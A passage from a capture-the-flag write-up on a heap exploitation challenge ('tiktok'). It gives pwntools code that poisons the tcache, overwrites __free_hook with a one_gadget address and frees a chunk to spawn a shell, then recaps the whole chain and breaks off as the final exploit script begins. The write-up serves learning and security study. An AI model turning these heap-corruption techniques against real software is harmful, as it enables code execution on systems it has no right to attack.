 Song number 4 has now been allocated at where freed song number 45 used to be at. We now need to allocate two more times: Once to recycle freed song number 46, and one more to overwrite `__free_hook` to point to `one_gadget`

```python
play_overflow("5", "946", "omgplswork")
play_overflow("6", "946", p64(one_gadget_libc) + "\x00"*100)
```

(yes by that time it's already been well over 24 hours I spent on this challenge....so I really wanted the exploit to work. Don't mind me :P)

By the way, the "\x00"*100 at the end is to ensure that the newline character won't mess any of the neighboring fields up. Since after `__free_hook` there's a lot of lock variables, setting them to be non-0 may result in unpredictable circumstances.

We are almost done! Now, we just need to free something, anything, to get our shell! This is the part that I didn't want to take a risk on, as song number 4 was used to poison the tcache, and song number 6 is located all the way at libc, so I didn't want to free either of them. Therefore, I decided to remove song number 5 (which is why I felt like I needed song # 46 in the first place) We can do that and get a shell by adding the following to the exploit:

```python
delete("4", 1)
sh.recvuntil("Removing: ") #Just to make output nicer
sh.interactive()
```

## Recap

This was an insane journey, so let's recap what we had to do to get a shell:
1. Abuse an interaction with `open()` opening directories and `strtok()` null terminating delimiters to set a song's file descriptor to 0.
2. Abuse an integer underflow to have the program read in way more than what was allocated, resulting in a heap overfow.
3. Use the heap overflow to poison multiple tcache bins at once to get multiple arbitrary `malloc()`s, as well as increasing the `mchunk_size` header of small chunks so that they overlap
4. Use the poisoned tcache to clobber the .bss section, and make the `song->albumptr` and `song->songptr` pointers point to the `atoi()` entry in the GOT table to get a leak.
5. Have the clobber also overwrite many other song's `song->filedesc` pointers so that we can write even more data
6. Use the overlapped heap chunks to do a second tcache poisoning attack, to get `malloc()` to return a pointer to `__free_hook()`
7. Overwrite `__free_hook()` with an one gadget address, and free a song to get a shell

Truely, an exploit chain indeed.

## Final exploit

Here's the final behemoth of an exploit:

```python
from pwn import *
import struct

#Song size:
"""
<directory>: 1 bytes

Animal/animal.txt: 946 bytes
Rainbow/godzilla.txt: 767 bytes
Warrior/pastlive.txt: 829 bytes
"""

context.binary = "./tiktok"
context.terminal = "/bin/bash"

```